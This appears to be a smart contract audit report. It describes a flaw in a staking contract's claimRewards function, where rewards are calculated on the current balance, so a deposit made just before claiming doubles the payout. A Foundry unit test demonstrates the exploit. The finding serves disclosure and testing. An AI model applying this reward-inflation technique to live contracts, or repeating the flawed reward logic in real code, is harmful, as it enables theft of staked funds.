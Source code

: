 ## Summary

`Staking::claimRewards()` fails to correctly compute the amount of staking rewards a user should get.

## Vulnerability Details

The vulnerability can be identified in the fact that the contract only tracks the last claim time (`lastClaim`) and computes the rewards based on the current staking balance (`userStakes`).
Anyone can call `Staking::deposit()` just before claming the rewards so that their `userStakes` is higher, meaning that they will receive more rewards.

## Impact

Anyone can claim more tokens than normal by depositing before withdrawing.

## Tools Used

Add the following unit test to `StakingTest.t.sol`:
```js
function test_incorrectStakingRewardsCalculations() public {
        uint256 tokensToDeposit = 100e18;
        uint256 weeksOfStaking = 10;
        uint256 expectedRewards = tokensToDeposit * 10;

        loveToken.testMint(soulmate1, tokensToDeposit); // soulmate1 starts with 100 tokens

        vm.startPrank(soulmate1);
        loveToken.approve(address(stakingContract), type(uint256).max);
        stakingContract.deposit(tokensToDeposit);

        // fast forward of 10 weeks
        vm.warp(block.timestamp + weeksOfStaking * 1 weeks + 1 seconds);

        // just before claiming, he deposits 100 tokens more
        loveToken.testMint(soulmate1, tokensToDeposit);
        stakingContract.deposit(tokensToDeposit);
        stakingContract.claimRewards(); // here userStakes[msg.sender] = 200
        vm.stopPrank();

        uint256 actualRewards = loveToken.balanceOf(soulmate1);
        assert(actualRewards > expectedRewards);
        assert(expectedRewards == 1000e18);
        assert(actualRewards == 2000e18);
    }
```

In the example above the user initially deposits 100 tokens. Normally, after 10 weeks, he sould be able to claim 1000 but, before claiming, he deposits 100 token more. This causes `Staking::claimRewards()` to calculate the rewards on 200 tokens of initial deposit (even if only half of them actually stayed in the contract for 10 weeks) and he's able to claim 2000 tokens.
